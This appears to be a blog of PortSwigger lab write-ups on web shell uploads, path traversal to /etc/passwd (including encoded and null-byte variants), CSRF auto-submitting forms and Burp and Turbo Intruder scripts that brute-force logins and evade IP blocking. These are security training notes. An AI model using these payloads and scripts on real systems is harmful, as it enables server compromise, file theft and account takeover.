





Introduction
This blog contains a series of writeups for PortSwigger Labs challenges, solved with and without using Burp Suite | 2024.
File upload vulnerabilities
Lab: Web shell upload via Content-Type restriction bypass
In this lab we have to exploit an upload vulnerability.
Go to “My account” and log in with the given credentials
Username: wiener
Password: peter
After logging in, we get redirected to “My account” page where there is an input box to upload our Avatar photo.
 We want to check if there is any upload vulnerability we can exploit to get access to the server. For this cause we will use BurpSuite to analyze the POST request and response from the server.
We want to check if there is any upload vulnerability we can exploit to get access to the server. For this cause we will use BurpSuite to analyze the POST request and response from the server.
By uploading a normal .jpeg file we are commanding a POST request:

Notice the Content-Type: multipart/form-data;. This means that for each input of the form we have seperate Content-Disposision and Content-Type headers.
If we try any file, other than .jpeg and .png, an error message is returned as response. So the server checks somehow the file we upload and its extension to make sure that it is an image.
There is a possibility that the server in order to read the extension of the file provided, uses the Content-Type header. In this case we could easily bypass this validation by keeping the Content-Type: image/jpeg and changing the file data into a php webshell that can give us Remote Command Execution (RCE).
Let’s give it a try! Send the POST request to the Repeater and insert the payload like this:
 Send the request. The avatar picture was changed successfully!
Send the request. The avatar picture was changed successfully!
Now let’s refresh the “My account” page and then press Ctrl+U to open the source code. Open the avatar photo in order to run the webshell.php. Then add to the URL ?cmd=cat+/home/carlos/secret.
Submit the code and voilla!
Lab: Web shell upload via path traversal
Go to “My account” and log in with the given credentials
Username: wiener
Password: peter
After logging in, we get redirected to “My account” page where there is an input box to upload our Avatar photo.
We want to check if there is any upload vulnerability we can exploit to get access to the server. For this cause we will use BurpSuite to analyze the POST request and response from the server.
Let’s try to upload a webshell.php file (keep Content-Type: image/jpeg) in case the server uses it to identify the file extension.

The response is

Refresh the page and press Ctrl+U for the source code of the “My account” page. The path of the file we uploaded is
If go to this path, we get our payload printed to the screen without being executed. So we need to find a workaround to execute this file. The server problably has permitted executing files from the specific folder /files/avatars as a defensive mechanism.
If we send request with filename="../webshell.php", we get as response The file avatars/webshell.php has been uploaded.. Notice that the path hasn’t change regardless of ../, so it problably filters the path ignoring parts that could lead to a path traversal attack.
There are many payloads we can use, other than just typing ../. For example, let’s try URL encoding %2e%2e%2fwebshell.php (equal to ../webshell.php).
As we can see now the response uploaded the file to /avatars/../webshell.php.
By opening the link we get a Not Found page. The URL is web-security-academy.net/files/avatars/..%2fwebshell.php, but if we remove ..%2f then we will go to the path that we uploaded the file web-security-academy.net/files/avatars/webshell.php. It loads. Now let’s see if the webshell works.
web-security-academy.net/files/avatars/webshell.php?cmd=cat+/home/carlos/secret
Sucess! We got the flag.
Path traversal
Lab: File path traversal, simple case
Open the website along with BurpSuite Proxy to inspect the requests to the server. At the home page there are products for sale (Title, Image, Small Description).
The image is probably stored locally at the server, so we should check if it vulnerable at path traversal attacks.
When we select a product we can see from BurpSuite Proxy the request GET /product?productId=1, with each product having each own ProductId. After this request there is another one, this time GET /image?filename=53.jpg for the image of the product.
Let’s check if the second request is vulnerable to path traversal attacks. Change the request with BurpSuite Repeater to
GET /image?filename=../../../etc/passwd
Success! The response contains the data from /etc/passwd.
Lab: File path traversal, traversal sequences blocked with absolute path bypass
Open the website along with BurpSuite Proxy to inspect the requests to the server. At the home page there are products for sale (Title, Image, Small Description).
The image is probably stored locally at the server, so we should check if it vulnerable at path traversal attacks.
When we select a product we can see from BurpSuite Proxy the request GET /product?productId=1, with each product having each own ProductId. After this request there is another one, this time GET /image?filename=53.jpg for the image of the product.
Usually all static content of a website is stored in a path like var/www/images at the server, so we want to exit this folder. If there is no validation or check then ../../../etc/passwd should work.
Unfortunately, it’s not working. Maybe the server treats the path given to filename parameter as an absolute path, so let’s try giving /etc/passwd. Perfect, it just printed the /etc/passwd file contents in the reponse section of BurpSuite Repeater.

Note: Try giving the absolute path of the file.
Lab: File path traversal, traversal sequences stripped non-recursively
Same as before, open BurpSuite Proxy and send to Repeater the request GET /image?filename=53.jpg. This request is been commanded by the browser to load the image 53.jpg which is stored in the server. Let’s try some path traversal attacks.
# First try to exit var/www/images
../../../etc/passwd #Nope
# Now try Absolute Path
/etc/passwd #No Luck
# Server may have specific defences against path traversal attacks
# like removing suspicious characters (../)
....//....//....//etc/passwd #Success

Even though the server removes all ../ characters, the remaining path is exactly what we want ../../../etc/passwd.
Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
Same as before, open BurpSuite Proxy and send to Repeater the request GET /image?filename=53.jpg. This request is been commanded by the browser to load the image 53.jpg which is stored in the server. Let’s try some path traversal attacks.
# First try to exit var/www/images
../../../etc/passwd #Nope
# Now try Absolute Path
/etc/passwd #Nope
# Server may have specific defences against path traversal attacks
# like removing suspicious characters (../)
....//....//....//etc/passwd #Nope
# Use of URL Encoding
# %2e = .
# %2f = /
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd #Nope
# Double URL Encoding
# %25 = %
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252Fpasswd #Success

So in order to exploit this vulnearbility we need to encode our path traversal payload to Double URL Encoding.
Lab: File path traversal, validation of start of path
Same as before, open BurpSuite Proxy and send to Repeater the request GET /image?filename=53.jpg. This request is been commanded by the browser to load the image 53.jpg which is stored in the server. Let’s try some path traversal attacks.
# First try to exit var/www/images
../../../etc/passwd #Nope
# Now try Absolute Path
/etc/passwd #Nope
# Server may have specific defences against path traversal attacks
# like removing suspicious characters (../)
....//....//....//etc/passwd #Nope
# Use of URL Encoding
# %2e = .
# %2f = /
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd #Nope
# Double URL Encoding
# %25 = %
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252Fpasswd #Nothing
# Server could take the absolute path and validate the base URL
# For example here the absolute path is /var/www/images/53.jpg
# and the base URL is /var/www/images
/var/www/images/../../../etc/passwd #Success

Lab: File path traversal, validation of file extension with null byte bypass
Same as before, open BurpSuite Proxy and send to Repeater the request GET /image?filename=53.jpg. This request is been commanded by the browser to load the image 53.jpg which is stored in the server. Let’s try some path traversal attacks.
The methods from the other labs don’t apply here. Maybe the server checks the extention of the file, so let’s try to use NULL character to end the line before the .jpg to bypass the check. We need to use the URL encoded value %00.
../../../etc.passwd%00.jpg

CSRF
Lab: CSRF vulnerability with no defenses
Go to “My account” and log in with the given credentials
Username: wiener
Password: peter
Now we can see a section to change our email.

If we enter an email while having Burp Proxy running, we can see the POST request to /my-account/change-email HTTP/2 with body email=newemail%40normal.com.
So now we know that we need to construct an HTML that makes a POST request to /my-account/change-email HTTP/2 but has as body our email.
<html>
<body>
<form action="https://0a400076042ec1f4817e750d00c9009d.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="pwned@evil.com" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
Now by using social engineering methods we can trick the user to run this HTML file. If the user loads this page and is already authorized to the website, then his email will be changed without him noticing.
Note: The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a website that they control, and then induce victims to visit that website. This might be done by feeding the user a link to the website, via an email or social media message. Or if the attack is placed into a popular website (for example, in a user comment), they might just wait for users to visit the website.
For example we could send an email with an image tag, like img src="http://attacker-server/csrf-exploit.html" width="0" height="0" border="0" redirecting to the above html file hosted on our server.
In this case we got a server ready by PortSwigger, so we just need to enter our payload and press the “Deliver exploit to victim”.

We have sucessfully solved the lab!
Lab: CSRF where token validation depends on request method
In this case when we change the email we see the POST request containing a CSRF-token to prevent us from forging a fake request.

But if we change the request from POST to GET we can see its working. The defences for CSRF where applied only at POST requests, leaving the website vulnerable.

So now we can construct the appropriate HTML file that will submit this request.
<html>
<body>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
Enter the payload to PortSwigger server and press “Deliver exploit to victim”.
Authentication
Lab: Username enumeration via different responses
Navigate to the login page, /login. Open Burp proxy and inspect the request/response when trying some random credentials.
For example, if we enter admin:admin then the request is the following.
So we have the parameters username and password. Let’s use the Burp Interuder to bruteforce them. Right click and “Sent to Intruder”
In this lab challenge, we will use the given wordlists from portswigger academy.
First configure the positions of the parameters we want to fuzz and select as Attack type, Cluster Bomb in order to check each word of the username wordlist with each password in the password wordlist.
Here we have 101 usernames and 100 passwords, that means 10100 combinations. That’s quite a lot.
If we start the attack we can see that the most responses have printed the message “Invalid username”. But after a couple of minutes one is different length and has printed “Invalid password”.

So we found the username and now we only need to find the password. Stop the attack and configure Burp Intruder only for the password, now we have only 100 requests to do, which is a ot faster.
The length of the response is different from the others, we might have something interesting here. Indeed this is password.
Lab: Username enumeration via subtly different responses
Navigate to the login page, /login. Open Burp proxy and inspect the request/response when trying some random credentials. With test:test credentials we get the message Invalid username or password..
Let’s send the request to intruder and try to enumerate the username in case the server responds with a different message.
Go to “Settings” and then “Grep Match”, to add the message and check the following box, “Flag result items with responses matching these expressions:”

Now we can start the attack. Notice there is a username with flag not equal to 1, meaning that Burp din not find the expression we provided.

By inspecting the response it seems that the message that is printed is Invalid username or password, without a fullstop. That’s propably a mistake and this is another message printed when the username is correct. Let’s check if we are right.
Bruteforce password with username adkit.
We got 302 (Found) status code, let’s try the credentials. Great we just solved the lab.
Lab: Username enumeration via response timing
Navigate to the login page, /login. Open Burp proxy. We have given some credentials, wiener:peter, let’s check the response in case we provide the right password and in case we provide a very long one.

It seems that the server took very long time to process the second password. This means that we might be able to check the validity of the username/password based on the time needed to get the response back.
In order to enumerate the username first we need to set as password an arbitary long string.
username=§test§&password=aaaaaaaaaaaaa...aaaaaaa
But after running this attack with Burp Intruder we can see that there is no findings and that’s becuase if we inpect one of the most recent requests we get the message, You have made too many incorrect login attempts. Please try again in 30 minute(s).
The server propably blocks an IP address if it spams too many requests.
By adding the header X-Forwarded-For with a random IP we can bypass this validation.
Note:
The X-Forwarded-For (XFF) request header is a de-facto standard
header for identifying the originating IP address of a client
connecting to a web server through a proxy server.
When a client connects directly to a server, the client’s IP
address is sent to the server (and is often written to server
access logs). But if a client connection passes through any
forward or reverse proxies, the server only sees the final proxy’s
IP address, which is often of little use. That’s especially true
if the final proxy is a load balancer which is part of the same
installation as the server. So, to provide a more-useful client IP
address to the server, the X-Forwarded-For request header is used.

So we need to fuzz also the IP address of the X-Forwarded-For header. We can use a online generator to generate random IP Addresses.

This takes significantly more time to receive the response which propably means that the username is correct and the server tries to process the long password.

We have successfully solved the lab challenge.
Lab: Broken brute-force protection, IP block
We have our credentials, wiener:peter and the victim’s username, carlos.
If we try a few times to login with different password, we get the message, You have made too many incorrect login attempts. Please try again in 1 minute(s)..
Even if we provide the X-Forwarded-For header with a different IP Address in each request, we get the same message.
By sending a couple of failed requests we can easily detect that three false requests are permitted before blocking the IP address for one minute.
However, if we log in to our account a third time, the failed login attempts are reset. This allows us to fuzz both the username and password, but every three attempts, we must provide valid credentials. This process can be somewhat inconvenient using Burp’s basic functionality, which is why we can leverage the Turbo Intruder extension.
Turbo Intruder allows us to write Python scripts to customize and optimize the fuzzing process.
Send the request by right clicking and selecting the “Send to turbo intruder”
Then configure the positions to fuzz by adding %s to the request.
def queueRequests(target, wordlists):
engine = RequestEngine(
endpoint=target.endpoint,
concurrentConnections=1,
requestsPerConnection=100,
pipeline=False
)
it = 0
for word2 in open('/home/kali/Desktop/htb/pass_burp.txt'):
word2 = word2.strip() # Remove any trailing whitespace/newlines
if it < 2:
engine.queue(target.req, ["carlos", word2])
it += 1
else:
engine.queue(target.req, ["wiener", 'peter'])
it = 0 # Reset the counter after every 3rd iteration
def handleResponse(req, interesting):
if interesting:
table.add(req)
Notice that concurrentConnections=1 is set to ensure each request is sent sequentially, waiting for a response before proceeding to the next. Using multiple connections increases the likelihood of requests being processed out of order, which could lead to the server blocking the IP address.
The attack was successful, the password is love.
Lab: Username enumeration via account lock
We know that the there will be some kind of blocking after some failed attempts. Let’s check this by sending the /login request to Turbo Intruder.
We want to fuzz the username with the wordlist and make at least 5 attepts so we can find if any username is triggering the account lock.

def queueRequests(target, wordlists):
engine = RequestEngine(
endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=100,
pipeline=False
)
it = 0
for word1 in open('/home/kali/Desktop/htb/usernames_burp.txt'):
for i in range(0, 5):
engine.queue(target.req, [word1.strip(), "test"])
def handleResponse(req, interesting):
if interesting:
table.add(req)
If we filter by length we can see two responses with different length from the others, the username is oracle.

Let’s see if we can fuzz the password with this username. Send the request of /login to Burp Intruder and configure it with a Sniper Type. Then provide the password wordlist.
As expected, most of the responses have printed the message You have made too many incorrect login attempts. Please try again in 1 minute(s)., but there is one, with password ashley that doesn’t print any message. This is our password.